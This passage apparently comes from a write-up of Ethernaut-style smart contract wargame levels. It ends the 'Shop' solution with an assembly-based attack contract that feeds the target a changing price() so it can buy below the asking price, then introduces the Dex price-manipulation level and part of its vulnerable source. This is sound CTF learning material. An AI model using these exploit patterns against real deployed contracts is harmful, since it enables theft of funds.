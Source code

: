   function price() external view returns (uint) {
      assembly {
        mstore(0x100, 0xe852e741)
        mstore(0x120, 0x0)
        let result := staticcall(gas(), sload(0x0), 0x11c, 0x4, 0x120, 0x20)
        if iszero(mload(0x120)) {
          mstore(0x150, 0x64)
          return(0x150, 0x20) 
        }
        mstore(0x150, 0x0)
        return(0x150, 0x20) 
    }
        
    // return shop.isSold() ? 1: 101; //this reverts the contract so using the above assembly instead to toggle between 0 and 100

  }

function hack() public {
        shop.buy();
    }
    
}
```

## Dex
Difficulty 3/10

The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

 

Quick note
Normally, when you make a swap with an ERC20 token, you have to approve the contract to spend your tokens for you. To keep with the syntax of the game, we've just added the approve method to the contract itself. So feel free to use contract.approve(contract.address, <uint amount>) instead of calling the tokens directly, and it will automatically approve spending the two tokens by the desired amount. Feel free to ignore the SwappableToken contract otherwise.

  Things that might help:

How is the price of the token calculated?
How does the swap method work?
How do you approve a transaction of an ERC20?
Sources
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract Dex  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
```